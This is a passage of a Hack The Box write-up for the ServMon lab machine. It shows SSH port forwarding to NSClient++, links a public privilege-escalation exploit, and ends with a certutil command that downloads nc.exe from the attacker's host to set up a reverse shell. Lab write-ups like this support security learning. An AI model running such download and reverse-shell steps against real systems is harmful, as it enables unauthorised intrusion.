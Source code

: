 ![servmon_nope.png](../assets/servmon_assets/servmon_nope.png)

We'll need to set up some port forwarding to access the site.

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ ssh -L 8443:127.0.0.1:8443 nadine@10.10.10.184 
```
(Note: if your port forwarding isn't working, try reverting the box. I had to revert it several times over the course of the hack)

We can now navigate to the page, but it is extremely buggy and just hangs.

![servmon_8443.png](../assets/servmon_assets/servmon_8443.png)

Because the exploit found before was very unclear to me, I kept searching for other exploits and found:

https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation

This is especially interesting as the GUI is all but unusable, and this bypasses it.

Looks like the script will take the password provided and execute commands with admin privileges.

The exploit features catching a shell as admin by executing a nc.exe reverse shell command back to our Kali box, but unfortunately the AV/ firewall is preventing me from loading nc.exe:

```
nadine@SERVMON C:\temp>certutil -urlcache -split -f "http://10.10.14.60/nc.exe"
Access is denied.
```
